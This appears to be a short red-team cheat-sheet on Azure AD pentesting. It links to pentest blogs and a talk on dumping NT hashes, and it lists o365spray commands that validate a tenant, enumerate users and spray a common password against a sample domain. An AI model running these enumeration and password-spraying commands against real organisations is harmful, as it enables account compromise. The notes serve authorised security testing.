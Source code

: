 # Azure AD

- [https://bhavsec.com/posts/intro-to-azure-pentesting/](https://bhavsec.com/posts/intro-to-azure-pentesting/)
- [https://sofblocks.github.io/azure-cloud-pentesting/](https://sofblocks.github.io/azure-cloud-pentesting/)
- [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- [[PDF] Dumping NTHashes from Azure AD (Dr Nestori Syynimaa, @DrAzureAD)](https://troopers.de/downloads/troopers23/TR23_DumpingNTHashesfromAzureAD.pdf)




## OSINT

- [https://aadinternals.com/osint/](https://aadinternals.com/osint/)




## Password Spray

Using [o365spray](https://github.com/0xZDH/o365spray) (random user agents [here](https://iplogger.org/ru/useragents/)):

```
$ pipx install -f "git+https://github.com/0xZDH/o365spray.git"
$ o365spray --validate -d megacorp.cloud
$ o365spray --enum -d megacorp.cloud -u snovvcrash
$ o365spray --enum -d megacorp.cloud -U names.txt
$ o365spray --spray -d megacorp.cloud -U names.txt -p 'Passw0rd!' --sleep 5 --rate 1 --useragents ua.txt
```
